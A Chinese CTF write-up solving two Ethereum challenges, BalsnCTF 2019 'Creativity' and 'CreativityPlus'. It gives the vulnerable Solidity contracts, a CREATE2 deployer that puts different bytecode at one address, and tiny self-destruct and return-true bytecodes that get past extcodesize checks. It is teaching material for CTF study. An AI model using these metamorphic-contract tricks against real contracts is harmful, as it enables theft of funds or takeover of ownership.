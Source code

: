 > 原文链接: https://www.anquanke.com//post/id/240015 


# 第五空间 CreativityPlus &amp; BalsnCTF 2019 Creativity


                                阅读量   
                                **130013**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/t012e799d0d3948c4d5.png)](https://p3.ssl.qhimg.com/t012e799d0d3948c4d5.png)

两道一致考点的CTF题目，放在一起进行讨论。

首先先看 BalsnCTF 的题目。<br>
题目给出了下面的代码。

```
pragma solidity ^0.5.10;

contract Creativity `{`
    event SendFlag(address addr);

    address public target;
    uint randomNumber = 0;

    function check(address _addr) public `{`
        uint size;
        assembly `{` size := extcodesize(_addr) `}`
        require(size &gt; 0 &amp;&amp; size &lt;= 4);
        target = _addr;
    `}`

    function execute() public `{`
        require(target != address(0));
        target.delegatecall(abi.encodeWithSignature(""));
        selfdestruct(address(0));
    `}`

    function sendFlag() public payable `{`
        require(msg.value &gt;= 100000000 ether);
        emit SendFlag(msg.sender);
    `}`
`}`
```

目标是触发SendFlag() ,但是很明显 10000000 ether是很难做到的。但是他这里给出了一个<br>`excute()`方法，这里可以任意调用target 地址合约的内容。<br>
那么就是寻找如何改变target的地址 从而成为我们自己本身的恶意合约地址。

这里有一个`check`方法，可以满足更改target地址的情况。<br>
但是一定要满足合约里的bytecode &gt;0 且 &lt; = 4<br>
才能成功更改。 我们知道 四个指令以下做到触发事件是不可能的。<br>
所以这里只能考虑 是否能在check之前使得合约满足条件,check之后让其改变呢。

那么这里就引入了新的合约创建方法 `create2`

这里我粘贴官方手册create2的用法。

[![](https://p0.ssl.qhimg.com/t01442ddb240bfa2985.png)](https://p0.ssl.qhimg.com/t01442ddb240bfa2985.png)

而create2 合约地址的计算如下

```
keccak256 (0xff ++ address ++ salt ++ keccak256 (init_code)) [12:]
```

salt为自己加盐，和正常的一些加密方式加盐相同含义。 init_code是自己的字节码。 address 是部署合约的地址。

但是我们init_code 是不同的，这里又有了一种较为神奇的方法。最初是由ethscan上被检测，然后公开了代码

```
https://ropsten.etherscan.io/address/0xb3ecef15f61572129089a9704b33d53f56991df8?__cf_chl_captcha_tk__=bb3c99eeb7468e5a569bd45cdfc3d360c3637bde-1620024594-0-AY2IJmwx8s_mLtqg5_QT9Ov6Z1tfJO2mnoC0__p5ib1qw9pYRJeEX4hri0UJ_dhf7fRwdS5OQ5Te5haOpfQCsXlx-HHM8k20PsgHoxS2XoI2z-UHNs1-AmU6CKTvoHl_26hzSbrE5lg2XjXyMJQuuDD6da3RibxdODEkLFwhamSEkaL366HehUh2oEAfBgd5vGSCh64vtFNKq_FmA4yjfd8RHovYGemB-kI0EISbiGVHkWnhARmh1LHjTp64Yd_oR6dT8z18wDcez6qewWZLePYhP0cG5XN610arcUgEzRsgwETWk-twMaQtN1duk5QNOv2owGOxBJODcbZQeTxj0ni29zmaaIcvLL_wL4bPpYExi6ouhMtYDqfq3Z7qijKoGcTiantR965Fb65y4GCDI3mgHriQzMp46XZsny0AQi56wruToL9E76Ozpwisy5k3Ms8RnpqnIzF6mAOefuMuvHf3VFeoGsJVYzR6jG92HV7jiQSnwPST02kG6x9_O4olzDQhjwsx-I-4S_3qAO6G2vBZt_vbTk4YZd9CpBIdShWlmkVa6Pbzit93YT-i1Lz4htGwNNvpCRCJunTo22lWo8rpTiDh7dB3sot4mJeVYYgWXhyqiL8-E9PUXTlggN-IMOavFP7lI2zZ1mCJdJPok16uuUFas3p-6v1-047HraCtPJ_seKL5voViO8xP2pKCVKXxgk-BN1Hs2rgYyhNXHmQww4BdD2A1ZPXS1ZKvd5ox#code
```

后来这里就被整理出来代码为如下

```
pragma solidity ^0.5.10;

contract Deployer `{`
    bytes public deployBytecode;
    address public deployedAddr;

    function deploy(bytes memory code) public `{`
        deployBytecode = code;
        address a;
        // Compile Dumper to get this bytecode
        bytes memory dumperBytecode = hex'6080604052348015600f57600080fd5b50600033905060608173ffffffffffffffffffffffffffffffffffffffff166331d191666040518163ffffffff1660e01b815260040160006040518083038186803b158015605c57600080fd5b505afa158015606f573d6000803e3d6000fd5b505050506040513d6000823e3d601f19601f820116820180604052506020811015609857600080fd5b81019080805164010000000081111560af57600080fd5b8281019050602081018481111560c457600080fd5b815185600182028301116401000000008211171560e057600080fd5b50509291905050509050805160208201f3fe';
        assembly `{`
            a := create2(callvalue, add(0x20, dumperBytecode), mload(dumperBytecode), 0x8866)
        `}`
        deployedAddr = a;
    `}`
`}`

contract Dumper `{`
    constructor() public `{`
        Deployer dp = Deployer(msg.sender);
        bytes memory bytecode = dp.deployBytecode();
        assembly `{`
            return (add(bytecode, 0x20), mload(bytecode))
        `}`
    `}`
`}`
```

DumpBytecode就是 下面的dumper 合约，当constructor的时候他会读取真正部署的字节码。然后返回去。所以这样就可以满足每次部署的Bytecode相同了。<br>
这样也就完成了骚操作。也就是能够把两个完全不同的字节码部署到同一个地址。<br>
当然第二次部署前这个合约要销毁。

那么这里首先考虑是如何销毁，肯定会想到Selfdestruct<br>
然后随便给个地址就可以了。但是没有额外的字节码允许push，最好直接找一个能返回值的指令。发现可以找tx.origin,或者是 msg.sender<br>
于是可以构造如下字节码<br>`0x32ff | 0x33ff`

这样就可以成功的部署和通过check，随后给该合约发一个空交易。或者一个单纯的转账操作。也可以完成它的自毁。

最后我们所需要做的就是触发SendFlag事件，这里不会写字节码 or 觉得写字节码麻烦就可以直接写一个合约触发，然后remix上直接dumpbytecode即可。

接下来分析第五空间的CreativityPlus。



## CreativityPlus

给源码

```
pragma solidity ^0.5.10;

contract CreativityPlus `{`
    event SendFlag(address addr);

    address public target;
    address public owner;
    uint randomNumber = RN;

    constructor() public `{`
        owner = msg.sender;
    `}`

    modifier onlyOwner()`{`
        require(msg.sender == owner);
        _;
    `}`

    function check(address _addr) public `{`
        uint size;
        assembly `{` size := extcodesize(_addr) `}`
        require(size &gt; 0 &amp;&amp; size &lt;= 4);
        target = _addr;
    `}`

    function execute() public `{`
        require( target != address(0) );
        address tmp;
        uint size;
        assembly `{` 
            tmp := and(sload(0),0xffffffffffffffffffffffffffffffffffffffff)
            size := extcodesize(tmp) 
        `}`
        require( size &gt; 0 &amp;&amp; size &lt;= 10);
        (bool flag, ) = tmp.call(abi.encodeWithSignature(""));
        if(flag == true) `{`
            owner = msg.sender;
        `}`
    `}`

    function payforflag() public payable onlyOwner `{`
        emit SendFlag(msg.sender);
        selfdestruct(msg.sender);
    `}`
`}`
```

前面的check还是一样的，但是最后还进行了一个10字节的check，需要你返回一个 真值。这里其实是ethernaut的一个challenge的 就是10字节部署的字节码能返回一个值。

[![](https://p5.ssl.qhimg.com/t01ca39025a5ba8e2b1.png)](https://p5.ssl.qhimg.com/t01ca39025a5ba8e2b1.png)

把2a 改成01就行了。

```
6001  PUSH1 0x01
6080  PUSH1 0x80
52    Mstore
6020  PUSH1 0x20
6080  PUSH1 0x80
f3    return
```

`0x600160805260206080f3` 部署一下<br>
调用excute函数就可以了。
